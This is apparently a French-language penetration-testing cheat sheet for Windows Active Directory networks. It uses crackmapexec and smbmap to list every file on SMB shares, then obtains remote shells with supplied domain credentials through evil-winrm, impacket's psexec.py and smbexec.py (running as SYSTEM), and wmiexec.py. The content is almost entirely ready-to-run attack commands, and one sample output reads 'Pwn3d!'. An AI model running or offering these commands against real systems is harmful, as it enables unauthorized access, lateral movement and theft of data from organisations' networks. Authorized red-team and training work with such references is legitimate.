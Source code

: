 #### crackmapexec

```bash
rm -rf /tmp/cme_spider_plus # dossier contenant les résultats du module spider_plus

# soit Lister tous les fichiers de tous les partages
cme smb $TARGET -u $USER -p "$PASSWORD" -M spider_plus 
# soit Lister tous les fichiers de tous les partages
cme smb $TARGET -u $USER -p "$PASSWORD" -M spider_plus --share 'Some Share'

# Affichage des résultats 
cat /tmp/cme_spider_plus/*.json | jq '. | to_entries | .[] | {share: .key, file: .value | to_entries | .[].key} | "\(.share) | \(.file)"' | tee $TARGET_IP-share_files.txt
```

#### smbmap

```shell
smbmap -u $AD_USER -p $AD_PASSWORD -d $AD_DOMAIN -H $TARGET_IP -R "$SHARE/" --dir-only
```

## Shell

### WinRM

```shell
# Vérification d'accès WINRM
cme winrm $TARGET_IP -u "$AD_USER" -p "$AD_PASSWORD" -d "$AD_DOMAIN"  | cut -c61-
     [*] http://10.10.1.55:5985/wsman
     [+] domain.local\User:Mypass (Pwn3d!)
# Obtention du shell via evil-winrm
evil-winrm -i $TARGET_IP -u "$AD_USER" -p "$AD_PASSWORD"
```

### RPC + SMB

Exécute un shell distant en tant que SYSTEM

```shell
# Nécessite l'accès au partage Admin$ + RPC pour la communication
psexec.py $AD_DOMAIN/$AD_USER:"$AD_PASSWORD"@$TARGET_IP
# Nécessite l'accès à un partage quelconque + RPC pour la communication
smbexec.py $AD_DOMAIN/$AD_USER:"$AD_PASSWORD"@$TARGET_IP
```

### WMI

Exécute un shell semi interactif (spawn un cmd.exe a chaque exécution de commande).

Fourni un accès avec le compte utilisateur utilisé ($AD_USER)

```shell
wmiexec.py $AD_DOMAIN/$AD_USER:"$AD_PASSWORD"@$TARGET_IP
```

